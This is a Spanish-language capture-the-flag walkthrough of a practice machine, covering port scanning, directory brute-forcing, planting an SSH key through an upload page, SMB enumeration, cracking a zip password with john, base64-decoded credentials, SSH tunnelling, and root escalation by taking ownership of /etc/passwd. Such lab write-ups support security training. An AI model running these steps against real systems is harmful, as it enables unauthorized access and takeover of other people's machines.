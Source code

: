 nmap: 80,22,139,445

![image](https://github.com/user-attachments/assets/c93e0c93-23ce-460d-b526-85e968e6f4ec)

---
en la pagina principal nos da:

![image](https://github.com/user-attachments/assets/fcc9059f-34dc-4407-a66f-0ffb9b1e35fe)

hacemos un gobuster:

![image](https://github.com/user-attachments/assets/3c562d69-2edd-486b-a1fd-1d4009b5bff6)

nos dio upload.php

![image](https://github.com/user-attachments/assets/4d4f493c-43c8-4824-b9c2-f362aa2990d4)

vuelvo hacer un gobuster pero agrego un .txt

![image](https://github.com/user-attachments/assets/3aab916e-3450-485c-8729-844555a092dd)

entramos y nos da

![image](https://github.com/user-attachments/assets/eabd553b-6926-48d4-ad8a-07d14d14bdf8)

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, nos faltaría usuarios 

pero podemos enumerar con: 
> enum4linux 172.18.0.2

nos da:

![image](https://github.com/user-attachments/assets/922a3b0b-ee7e-4809-bf6d-55356c4e5565)

creamos un id_rsa 

    ssh-keygen -t rsa -b 4096

![image](https://github.com/user-attachments/assets/3abfabf0-f121-40d6-987e-86224e2cba2f)

nos dara: id_rsa  id_rsa.pub  

pasamos la clave a un authorized_keys

![image](https://github.com/user-attachments/assets/8ab00440-e29b-4c45-b999-d7b5cb3914d4)

le damos permisos: 
> chmod 600 id_rsa 

subimos el authorized_keys

![image](https://github.com/user-attachments/assets/bdc38c49-08c0-4727-abc3-53421d68aab4)

ahora en el terminal colocamos: 
>  ssh passsamba@172.18.0.2 -i id_rsa

 estamos dentro

![image](https://github.com/user-attachments/assets/e3f79d3c-7b47-433b-b866-849bcbae20db)

al hacer un "ls", nos da esto:
>cat note.txt

![image](https://github.com/user-attachments/assets/02e6ce37-d644-425f-ba73-bd0b01b4a1a4)

por la similitud  con  un nombre de usuario, probamos como contraseña:
> su sambauser / sambaarribasiempre

y ahora somos sambauser

como no hay nada, encontré para ver posibles directorios:

    smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2

![image](https://github.com/user-attachments/assets/c56356f7-e265-4009-b2be-75228b56496c)

nos dio dos:
> read_only_share

nos conectamos como clientes.

    smbclient //172.18.0.2/read_only_share -U sambauser -W workgroup  

la contraseña es la misma y dentro nos pasamos con get el zip que hay

![image](https://github.com/user-attachments/assets/4078231a-b32e-45f9-a536-865b0c8d77e4)

como pide contraseña la sacamos:

    zip2john secret.zip > hash.txt 
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
    
> contraseña: qwert

![image](https://github.com/user-attachments/assets/5d72b198-dbda-48ca-971d-6e71aa66eee1)

le colocamos al txt cat y nos da:
> root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==

en la misma terminal colocamos:
> echo "cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==" | base64 -d

nos da la contraseña

![image](https://github.com/user-attachments/assets/7e47d33d-2cf5-4fea-9411-068ca33b6998)

entramos por ssh en una terminal y colocamos la contraseña con el usuario "root-false"

dentro hay un: message.txt que dice:

![image](https://github.com/user-attachments/assets/4ee839aa-948b-44f5-8945-716001247013)

encontramos esto

![image](https://github.com/user-attachments/assets/be0d2017-31f6-44c3-852f-6563801c2187)

ejecutamos el comando

     curl -vvv -d 'username=mario&password=pinguinodemarioelmejor' http://10.10.11.5

lo que lanzamos es lo del mensaje que vimos 

![image](https://github.com/user-attachments/assets/8d68948b-03ab-4824-a5f2-abd41ec454d2)

lanzamos:

     curl -vvv http://10.10.11.5/super_secure_page/admin.php/

si se hace un: curl -v 10.10.11.5
nos mostrara código de una pagina que contiene un login en el puerto 80

hacemos este comando: 
> ssh root-false@172.18.0.2 -L 9090:10.10.11.5:80

y nos conectaremos otra vez

![image](https://github.com/user-attachments/assets/b1e035df-43e2-49aa-88be-55cc626b0589)

nos vamos a firefox y buscamos esto:
> http://127.0.0.1:9090/

no me funciono pero del codigo anterior vi un "ultramegatexto.txt", lanzamos el siguiente comando

    curl http://10.10.11.5/ultramegatextosecret.txt


nos dio:

![image](https://github.com/user-attachments/assets/a7017a56-9d42-45e6-9499-8175c6eb12bb)

nos dará la pagina de login - admin
en el texto hay parte que me llamo la atención que parece contraseña que dice:
> Cristal_de_la_Aurora

la probamos en el usuario less que sale al final del texto.
y somos el usuario less 
al hacer sudo -l nos da: chown

![[conexion3.png]]

buscando encontré que podemos cambiar al propietario de la carpeta /etc/passwd
con este comando: 

    sudo chown less:less /etc/passwd

ahora hacemos un:

    nano /etc/passwd

![[Pasted image 20250115194824.png]]

![[dockerlabs/dificil/r00tless/cat.png]]

le quitamos la "x" a root 
guardamos y ejecutamos

![[dockerlabs/dificil/r00tless/root.png]]

su root
somos root! 
